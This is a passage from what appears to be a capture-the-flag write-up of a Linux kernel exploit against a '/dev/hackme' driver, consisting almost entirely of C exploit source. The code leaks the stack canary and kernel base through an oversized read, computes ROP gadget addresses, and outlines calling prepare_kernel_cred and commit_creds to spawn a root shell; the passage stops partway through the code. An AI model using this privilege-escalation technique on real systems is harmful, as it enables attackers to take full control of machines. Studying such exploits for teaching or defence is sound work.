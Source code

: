 - leak `commit_creds`
- leak `prepare_kernel_cred`
- call `prepare_kernel_cred()`
- call `commit_creds()`
  - `get_shell()`

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <signal.h>

int devfd;
unsigned long user_cs, user_ss, user_rflags, user_sp;
unsigned long canary;
unsigned long base;
unsigned long pop_rax_ret;
unsigned long pop_rdi_ret;
unsigned long read_rax_pop_rbp_ret;
unsigned long __ksymtab_commit_creds;
unsigned long __ksymtab_prepare_kernel_cred;
unsigned long swapgs_restore_regs_and_return_to_usermode;
unsigned long commit_creds, prepare_kernel_cred, cred;
unsigned long tmp;

void leak_commit_creds();
void leak_prepare_kernel_cred();
void call_prepare_kernel_cred();
void call_commit_creds();
void get_shell();

void open_dev()
{
    if ((devfd = open("/dev/hackme", O_RDWR)) < 0)
        perror("[-] open dev failed");
    puts("[+] open dev success");
}

void leak_base()
{
    char data[0x140];
    if (read(devfd, data, sizeof(data)) < 0)
        perror("[-] read dev failed");
    
    canary = *(unsigned long *) (data + (0xa0-0x20));
    base = *(unsigned long *) (data + 304) - 0xa157;
    printf("[*] canary: 0x%08lx\n", canary);
    printf("[*] leak base: 0x%08lx\n", base);
    
    /* gadget */
    pop_rax_ret = base + 0x4d11;
    pop_rdi_ret = base + 0x6370;
    read_rax_pop_rbp_ret = base + 0x15a80;
    __ksymtab_commit_creds = base + 0xf87d90;
    __ksymtab_prepare_kernel_cred = base + 0xf8d4fc;
    swapgs_restore_regs_and_return_to_usermode = base + 0x200f10;
    
    printf("[*] pop_rax_ret: 0x%08lx\n", pop_rax_ret);
    printf("[*] pop_rdi_ret: 0x%08lx\n", pop_rdi_ret);
    printf("[*] read_rax_pop_rbp_ret: 0x%08lx\n", read_rax_pop_rbp_ret);
    printf("[*] __ksymtab_commit_creds: 0x%08lx\n", __ksymtab_commit_creds);
```